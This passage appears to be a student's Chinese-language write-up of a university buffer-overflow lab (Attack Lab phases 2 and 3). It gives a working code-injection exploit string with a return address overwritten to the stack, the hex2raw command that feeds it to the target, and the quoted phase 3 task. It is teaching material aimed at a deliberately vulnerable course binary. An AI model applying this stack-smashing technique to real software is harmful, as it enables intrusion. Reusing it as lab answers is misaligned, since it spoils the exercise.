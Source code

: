    > 在getbuf()查看%rsp
      (gdb) print $rsp
      $3 = (void *) 0x5561dc78

      方法：将getbuf的返回地址改为%rsp地址，在%rsp添加注入代码。

      level2.txt:

        48 c7 c7 fa 97 b9 59 68      /* 注入代码 */
        ec 17 40 00 c3 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        78 dc 61 55 00 00 00 00      /* 返回地址设置为getbuf的栈顶 */

        ./hex2raw -i level2.txt | ./ctarget -q

3. phase3

    > Phase 3 also involves a code injection attack, but passing a string as argument.
Within the file ctarget there is code for functions hexmatch and touch3 having the following Crepresentations:

        /* Compare string to hex represention of unsigned value */
        int hexmatch(unsigned val, char *sval)
        {
          char cbuf[110];
          /* Make position of check string unpredictable */
          char *s = cbuf + random() % 100;
          sprintf(s, "%.8x", val);
          return strncmp(sval, s, 9) == 0;
        }

         void touch3(char *sval)
        {
          vlevel = 3; /* Part of validation protocol */
          if (hexmatch(cookie, sval)) {
          printf("Touch3!: You called touch3(\"%s\")\n", sval);
          validate(3);
        } else {
          printf("Misfire: You called touch3(\"%s\")\n", sval);
          fail(3);
          }
          exit(0);
        }

    > Your task is to get CTARGET to execute the code for touch3 rather than returning to test. You must make it appear to touch3 as if you have passed a string representation of your cookie as its argument.

    > Some Advice:
      • You will need to include a string representation of your cookie in your exploit string. The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”
      • Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type “man ascii” on any Linux machine to see the byte representations of the characters you need.
      • Your injected code should set register %rdi to the address of this string.
      • When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

